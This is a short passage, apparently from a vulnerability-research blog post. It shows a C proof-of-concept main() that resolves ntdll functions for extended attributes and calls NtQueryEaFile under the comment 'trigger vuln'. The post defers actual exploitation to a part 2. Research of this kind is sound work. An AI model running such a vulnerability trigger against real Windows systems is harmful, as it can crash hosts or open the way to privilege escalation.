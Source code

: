 ```c



int main() {
    // Load ntdll.dll and get the addresses of the functions
    HMODULE ntdll = LoadLibraryA("ntdll.dll");
    if (!ntdll) {
        printf("Error loading ntdll.dll\n");
        return 1;
    }

    NtSetEaFile_t NtSetEaFile = (NtSetEaFile_t)GetProcAddress(ntdll, "NtSetEaFile");
    NtQueryEaFile_t NtQueryEaFile = (NtQueryEaFile_t)GetProcAddress(ntdll, "NtQueryEaFile");

    NtFsControlFile = (NtFsControlFile_t)GetProcAddress(LoadLibraryA("ntdll.dll"), "NtFsControlFile");
    if (!NtFsControlFile) {
        return 1;
    }
    if (!NtSetEaFile || !NtQueryEaFile) {
        printf("Error finding NtSetEaFile or NtQueryEaFile\n");
        return 1;
    }

    // File to set/query extended attributes
    const char* fileName = "example.txt";
    hFile = CreateFileA(fileName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_FLAG_BACKUP_SEMANTICS, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        printf("Error opening file: %lu\n", GetLastError());
        return 1;
    }

    set_extended_attributes(NtSetEaFile);

    printf("[>] Continue to do a NtQueryEaFile? > ");
    getchar();

    // trigger vuln
    query_extended_attributes(NtQueryEaFile);


    getchar();


    CloseHandle(hFile);
    return 1;
}
```


We now *just* have to apply the exploitation technique, how hard can that be? ;P. We'll cover this in part 2.
